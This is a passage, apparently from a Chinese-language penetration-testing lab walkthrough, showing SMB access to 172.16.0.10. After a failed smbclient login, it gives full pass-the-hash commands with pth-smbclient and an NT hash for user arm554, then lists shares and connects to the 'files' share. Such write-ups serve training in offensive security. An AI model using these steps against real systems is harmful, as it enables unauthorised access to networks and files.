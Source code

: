 使用smbclient连接该IP,尝试使用`tiger`尝试连接失败：

```bash
smbclient -L 172.16.0.10 -U arm554
```

![Alt text](./1512934174843.png)


进行hash传递：

```bash
root@kali:~# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
```

![Alt text](./1512935252882.png)

爆出共享的文件，尝试直接连接到`files`文件夹，然后连接成功：

```bash
root@kali:~# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 \\\\172.16.0.10\\files 6361DEA164EE8FE91FE7B117FBC9CA5E
```
